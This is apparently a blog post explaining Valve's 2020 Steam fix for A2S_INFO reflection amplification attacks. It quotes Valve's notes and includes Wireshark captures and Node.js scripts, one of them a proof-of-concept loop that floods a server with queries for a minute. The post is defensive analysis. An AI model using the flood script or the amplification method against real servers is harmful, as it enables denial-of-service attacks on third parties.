






Since of 08.12.2020 developer from Valve presented an update regarding reflection amplification attack vulnerability presented in all Steam games which support game server queries.

This type of attack is > 5 years old.


Note from developer:
```
Hello!

The Steam client released today includes changes to the client intended to address a gameserver reflection attack vulnerability in the server browser protocol. It also includes several experimental features that can be enabled on gameservers to further harden the server against attack.

When a client queries a server, it will begin by sending an A2S_INFO packet, formatted exactly as before. If the server desires (see below for how to opt in), the server may reply with a S2C_CHALLENGE challenge request, instead of replying with the S2A_INFO_SRC data packet. The new client understands this reply, and can resubmit the A2S_INFO request, authenticated with the server's challenge, thus proving that it is not spoofing the source IP address.

The binaries released with the client today also include changes relevant to how the gameserver handles these packets. First, challenge generation was hardened against attacks designed to fill the challenge table and crowd out legitimate challenge requests.
Additional experimental improvements are available by setting environment variables, but are not enabled by default:

STEAM_GAMESERVER_A2S_INFO_REQUIRE_CHALLENGE=1. This will opt into the new handshake for A2S_INFO packets to address the reflection attack. At this time, it is primarily intended for testing 3rd party query clients. Since not all players may have an updated Steam client and understand this handshake, it is not recommend to enable this at this time, except for testing. We will post again when the vast majority of users are running clients that understand the new protocol, and enabling the new protocol is safe.

STEAM_GAMESERVER_RATE_LIMIT_200MS=N. This will drop any connectionless packets (A2S_INFO, A2S_RULES, A2S_PLAYERS) from a given IP after more than N are received in a 200ms window. By default, rate limiting is disabled, but a reasonable value might be somewhere around 25-75.

STEAM_GAMESERVER_PACKET_HANDLER_NO_IPC. If this variable is set, then the Steamworks packet handling calls will use a “fast path”. In the Steamworks SDK, most API calls are serialized over an IPC, and in fact execute in the steam client process. A dedicated server does not communicate with a steam client (there usually isn’t one running), but the same basic design is used – there are two threads, and all API calls are serialized and executed in the Steam thread. Turning on this environment variable will bypass this serialization and thread context switch, which makes these calls, much, much faster. Note that this only affects a server in “shared socket mode” – meaning the game port and the query port are the same.

Gameserver operators can obtain binaries for all platforms, including older linux distributions, here:
http://media.steampowered.com/apps/steamworks/steam_bins_6246211.zip

These changes were previously discussed in this post: https://steamcommunity.com/discussions/forum/14/2989789048633291344/.
```

Some notes from this text:

* Valve finally works on fix of this problem,
* for now there is no breaking change in queries,
* you definitely want to check out this.

Let's test this out.

Someone in [discussion](https://steamcommunity.com/discussions/forum/14/2974028351344359625/?ctp=2#c2996547001730614240) was kind enough to provide two servers with old and new protocol.

This gameservers are running Counter-Strike: Source (v5394425 (Linux, Dedicated, Protocol 17))

Let's start [HLSW](http://www.hlsw.net/) and fire up [Wireshark](https://www.wireshark.org/) to see what packets we are sending and what server is returning.

Add server to HLSW and start to send packets.
Standard [query](https://developer.valvesoftware.com/wiki/Server_queries#Request_Format) for A2S_INFO looks like this.
Its just crafting query string (TSource Engine Query) where T (0x54) is header and rest is payload string terminated by space (0x00).



After successful packet sending on gameserver, server responds with S2A_INFO_SRC packet which looks like this



Every byte is documented [here](https://developer.valvesoftware.com/wiki/Server_queries#Response_Format).

### How is this exploitable?

Bandwidth in computer world is expensive thing if its abused, so attacks like DDoS can harm gameserver by lagging, dropping players, resource overuse etc but it also can be fatal if combined in big ddos attack on other server by attacker spoofing ip address.

Lets craft some PoC. For this purpose I will use nodejs.

```jsx

const udp = require('dgram');

// Create udp socket
const client = udp.createSocket('udp4');

const ip = '';
const port = 0;

let sent = 0;
let received = 0;
let bytes = 0;


// TSource Engine Query
const hex = Buffer.from('ffffffff54536f7572636520456e67696e6520517565727900', 'hex')

// emits on new datagram msg
client.on('message', (msg) => {
bytes = bytes + parseInt(msg.length);
received++;
});


const statusPrint = () =>{
console.log('%s requests to gameserver. ', sent);
console.log('%s responses from gameserver with %s bytes. ', received, bytes);
}

// Run test for 1 minute
const runFor1muinuteInterval = setInterval(() =>{

    // Socket function to send Buffer object
    client.send(hex, port, ip, (error) =>{

        // Check if packet is sent?
        if(!error){

            // Increment sent status
            sent++;
        } 
    });

})

// Clear interval after 1 minute
setTimeout(()=>{clearInterval(runFor1muinuteInterval), statusPrint(); }, 60000);

```

nodejs is very slow but still manage to run 40k hits in a minute.

Note: **everything is tested on my local machine, don't use for illegal purposes**.

Now let's see how Valve provided protection.

Let's send A2S_INFO packet first and see response on the protected server.



Red underline is response type (0x41) or string A.
Blue is long type challenge response.

Unfortunately, HLSW is not updated for this change (lol if this was the only thing) so to see response we need to recraft request packet to see A2S_INFO response.

```jsx
const udp = require('dgram');

// Create udp socket
const client = udp.createSocket('udp4');

const ip = '';
const port = 0;

// TSource Engine Query - normal query 
const hex = Buffer.from('ffffffff54536f7572636520456e67696e6520517565727900', 'hex')

// Socket send
client.send(hex, port, ip, (error) =>{

    // Check if a packet is sent?
    if(!error){
        console.log('Normal TSource Engine Query packet have been sent.'); 
    } 
});

// Emits on new datagram msg
client.on('message', (msg) => {

    // Get buffer value at position 4 in buffer object and check if its equal to challenge response (0x41 === 65)
    if(msg[4] === 65){

        // If yes craft new A2S_INFO packet with challenge response
        const A2S_INFO_REQUEST = Buffer.concat([Buffer.from('ffffffff', 'hex'), Buffer.from('54536f7572636520456e67696e6520517565727900', 'hex'), Buffer.from(msg.toString('hex', 5), 'hex')]);

        // Send new packet with challenge response
        client.send(A2S_INFO_REQUEST, port, ip, (error) =>{
        // Check if packet is sent?
            if(!error){
                console.log('Modified TSource Engine Query packet have been sent. Packet (hex): %s', A2S_INFO_REQUEST); 
            } 
    });
    }

    // Check if response is actually A2S_INFO response 0X49 === 73 int
    if(msg[4] === 73){
        console.log('Received A2S_INFO from gameserver.')
        console.log(msg.toString('ascii'));
    }

});

```

Wireshark recrafted request:




Wireshark A2S_INFO response:



Console value response (ascii): 




Normal A2S_INFO query (red) with type long challenge (blue).


Final words of advice would be to start implementing this new defending technique because it will prevent spoofed attacks with this challenge. 
Gametrackers should be prepared for servers of this kind, early adoption can bring stable queries for its community and servers. This same thing goes for client queries like HLSW and [others](https://developer.valvesoftware.com/wiki/Server_queries#Implementations).

Other methods like *STEAM_GAMESERVER_RATE_LIMIT_200MS* and 
*STEAM_GAMESERVER_PACKET_HANDLER_NO_IPC* should be covered in other blog posts.


